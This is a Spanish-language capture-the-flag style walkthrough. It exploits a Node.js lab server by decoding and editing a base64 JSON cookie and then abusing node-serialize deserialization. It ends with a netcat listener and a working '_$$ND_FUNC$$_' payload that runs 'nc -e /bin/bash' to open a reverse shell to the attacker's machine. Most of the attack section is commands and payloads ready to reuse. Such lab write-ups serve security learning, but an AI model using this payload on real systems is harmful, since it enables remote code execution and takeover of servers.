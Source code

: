 El mensaje de error sugiere un problema al analizar JSON en una aplicación Node.js, específicamente en el archivo server.js en la línea 12. Aunque no hemos enviado JSON explícitamente, es posible que la aplicación lo espere en alguna parte de su funcionamiento. Para investigar más, podríamos utilizar Burp Suite para examinar las solicitudes y respuestas HTTP en busca de interacciones que involucren JSON
```bash
GET / HTTP/1.1
Host: 10.0.1.22:666
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Cookie: profile=eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0%3D
Connection: close
```
Observamos que la cookie contiene el JSON. El '$3D' en términos de URL indica que es un '='. Esto sugiere que está codificado en base64. Dado que los JSON codificados en base64 a menudo comienzan con 'ey', sabemos que se trata de uno. Procedemos a decodificarlo
```bash
echo "eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0%3D" | base64 -d
```
Al decodificar la cadena, obtenemos un JSON donde notamos que la sintaxis está incorrecta antes del viernes. Corregimos el JSON, lo codificamos nuevamente y lo reemplazamos desde Burp Suite
```json
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```
JSON arrglado
```json
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}
```
Procedemos a codificar nuevamente la cadena
```bash
echo -n '{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":"Friday, 13 Oct 2018 00:00:00 GMT"}' | base64
```
```bash
eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOiJGcmlkYXksIDEzIE9jdCAyMDE4IDAwOjAwOjAwIEdNVCJ9
```
Lo que hemos encontrado hasta ahora no nos ha sido de mucha utilidad, ya que solo muestra un simple mensaje 'Hello admin'. Sin embargo, al volver a analizar el error que obtuvimos al recargar la página, notamos que utiliza 'Object.export.unserialize'. Este módulo puede ser explotado para la ejecución remota de código
```html
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/nodeadmin/.web/node_modules/node-serialize/lib/serialize.js:62:16)
```
Vamos a iniciar la escucha por Netcat en el puerto 1234 para interceptar la solicitud y carga que utilizaremos a continuación
```bash
nc -lvnp 1234
```
Vamos a ejecutar lo siguiente para cargar una shell reverse, aprovechando esta vulnerabilidad de RCR
```bash
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('nc -e /bin/bash 10.0.1.15 1234',(e,out,err)=>{console.log(out);}); }()"}
```